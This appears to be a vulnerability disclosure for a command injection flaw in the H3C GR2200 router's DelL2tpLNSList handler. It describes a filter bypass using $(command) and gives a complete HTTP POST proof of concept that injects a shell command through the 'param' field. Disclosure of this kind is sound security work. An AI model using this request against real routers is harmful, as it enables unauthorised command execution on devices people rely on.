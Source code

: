 # H3C GR2200 MiniGR1A0V100R014 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202202/1542099_30005_0.htm

### Product Information

H3C GR2200 MiniGR1A0V100R014  router, the latest version of simulation overview：

![image-20220724132311844](img/image-20220724132311844.png)

## Vulnerability details

H3C GR2200 (MiniGR1A0V100R014) was found to contain a command insertion vulnerability in DelL2tpLNSList.This vulnerability allows an attacker to execute arbitrary commands through the "param" parameter.

![image-20220724112402312](img/image-20220724112402312.png)

Format the `param` parameter we entered into `V13` through the `snprintf` function, and execute our command through the system function. Because `V8` and `V9` are limited to 8 bytes, we can fill `V8` with 8 bytes so that when `%s` in the `snprintf` function is formatted, `V8` and `V9` will be connected actively.

![image-20220724132824754](img/image-20220724132824754.png)

Although the `sub_46EE30` function filters some dangerous characters, we can bypass them with `$(command)`.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following `POC` attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.124.1:80/maintain_basic.asp
Cookie: JSESSIONID=04f803a0
Upgrade-Insecure-Requests: 1
Content-Length: 67

CMD=DelL2tpLNSList&GO=vpn_l2tp_session.asp&param=1;$(ps>/ww w/1)	#;
```

![image-20220724133957626](img/image-20220724133957626.png)

The picture above shows the debug log after POC is sent.

![image-20220724133234021](img/image-20220724133234021.png)

The above illustration shows the effect of command execution.

